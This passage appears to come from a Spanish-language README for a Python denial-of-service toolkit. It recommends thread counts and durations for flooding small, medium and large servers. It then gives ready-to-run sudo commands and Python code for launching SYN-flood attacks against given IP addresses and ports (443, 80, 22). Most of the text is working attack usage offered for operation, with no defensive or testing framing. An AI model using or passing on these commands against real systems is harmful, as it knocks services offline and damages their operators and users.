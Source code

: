 ```python
    t = threading.Thread(target=attack_worker)
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```

### Parámetros Recomendados

| Objetivo | Threads | Duración | Puerto |
|----------|---------|----------|--------|
| Servidor pequeño | 50-100 | 60-120s | 80 |
| Servidor mediano | 100-300 | 120-300s | 80/443 |
| Servidor grande | 300-1000 | 300-600s | 80/443 |

---

## SYN-Flood

### Descripción
Inunda el objetivo con paquetes SYN malformados para abrumar la tabla de conexiones TCP.

### ⚠️ Requisitos
- Permisos de administrador/root
- Sistema operativo compatible (Linux/Windows con WinPcap)

### Uso Directo

```bash
# SYN-Flood básico (requiere sudo en Linux)
sudo python python/attacks.py --attack syn_flood --target 192.168.1.1 --port 443 --threads 100 --duration 60

# SYN-Flood intenso
sudo python python/attacks.py --attack syn_flood --target 10.0.0.1 --port 80 --threads 500 --duration 300

# SYN-Flood contra múltiples puertos
sudo python python/attacks.py --attack syn_flood --target 192.168.1.1 --port 22 --threads 200 --duration 120
```

### Uso Programático (Python)

```python
from python.core.syn_flood import SYNFlood
import threading

# Crear instancia
syn = SYNFlood('192.168.1.1', 443)

# Enviar paquete SYN (requiere permisos)
try:
    syn.send_syn_packet()
    print("[+] Paquete SYN enviado")
except PermissionError:
    print("[-] Se requieren permisos de administrador")

# Versión simplificada (sin permisos especiales)
syn.send_syn_packet_simple()
```